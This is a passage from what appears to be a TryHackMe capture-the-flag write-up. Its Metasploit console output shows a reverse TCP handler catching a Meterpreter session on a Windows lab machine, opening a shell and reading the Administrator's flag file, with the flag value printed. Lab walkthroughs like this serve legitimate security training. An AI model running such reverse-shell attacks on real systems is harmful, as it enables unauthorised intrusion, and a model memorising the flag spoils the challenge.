 ```console

[...]  
```
{: .nolineno }

In the metasploit console :

```console
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F0DC-5D15

 Directory of C:\Users\Administrator\Desktop

08/13/2021  07:40 AM    <DIR>          .
08/13/2021  07:40 AM    <DIR>          ..
08/13/2021  07:40 AM                23 flag.txt
               1 File(s)             23 bytes
               2 Dir(s)   3,260,416,000 bytes free

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.27.152:4444 
[*] Sending stage (201283 bytes) to 10.10.254.219
[*] Meterpreter session 5 opened (10.10.27.152:4444 -> 10.10.254.219:49768) at 2022-05-05 18:39:37 +0100

meterpreter > shell
Process 1856 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd /Users/Administrator/Desktop
cd /Users/Administrator/Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F0DC-5D15

 Directory of C:\Users\Administrator\Desktop

08/13/2021  07:40 AM    <DIR>          .
08/13/2021  07:40 AM    <DIR>          ..
08/13/2021  07:40 AM                23 flag.txt
               1 File(s)             23 bytes
               2 Dir(s)   3,335,790,592 bytes free

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
THM{SiGBQPMkSvejvmQNEL}
C:\Users\Administrator\Desktop>
```
{: .nolineno }
